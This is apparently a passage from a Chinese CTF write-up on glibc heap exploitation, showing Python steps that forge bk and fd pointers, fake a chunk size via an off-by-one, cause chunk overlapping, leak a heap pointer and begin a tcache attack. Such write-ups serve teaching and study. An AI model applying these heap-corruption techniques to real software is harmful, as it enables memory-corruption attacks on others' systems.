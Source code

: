 此时的堆布局    

![](https://raw.githubusercontent.com/4ak5ra/image/main/堆变化.jpg) 

伪造bk
```python
free(6)  #free的chunk 3
free(2)  #free的chunk 0
add(0x410, "a" * 8)  # 2 覆写bk
add(0x410, "a" * 8)  # 6 复原
```
构造fd
```python
free(6)  
free(3)
free(5)   #合并的
 
add(0x4f0, b"b" * 0x488 + p64(0x431))  # 3,分割chunk并覆写fd
add(0x3b0, "a" * 8)  # 5，复原
```
伪造size
```python
free(4) #vitcim的前面那个
 
add(0x108, b"c" * 0x100 + p64(0x550))  # 4。伪造size并触发off by one
add(0x400, "a" * 8)  # 6  让victim变成malloc状态
free(3)  #触发over_lapping
```


## 利用overlapping
因为我们伪造的victim在正常堆块header的上面，所以我们切割一个header的空间就可以让剩下的堆块分配到可控区域。

```python
add(0x10, "a" * 8)  # 3
show(6)
```

此时我们的内存布局是这样  

![](https://raw.githubusercontent.com/4ak5ra/image/main/总.png) 

从左到右依次是重叠前，重叠后，分割后。我们简化一下

![](https://raw.githubusercontent.com/4ak5ra/image/main/内存简化.png)

然后就是传统的overlapping的利用思路了，具体就是不断分割这一大块bin,利用我们可以控制的区域来控制敏感信息，此时我们需要做泄漏heap和任意写两件事 

泄漏heap我们就利用6就行了，再切割一个chunk将其free掉就有heap指针了。
```python
add(0x3f0,b"#"*0x3f0)#8
add(0x60, b'&'*0x18 + p64(0x71)) #9
add(0x3f0,b"a"*8)#10
free(6)
show(8)  #6和8就是同一个chunk
```
构造任意写就要利用tcache attck了，只剩一个chunk4肯定是不够的，那么就再申请一个chunk作为victim，修改chunk4的大小让其在bin中时可以写到victim的header  
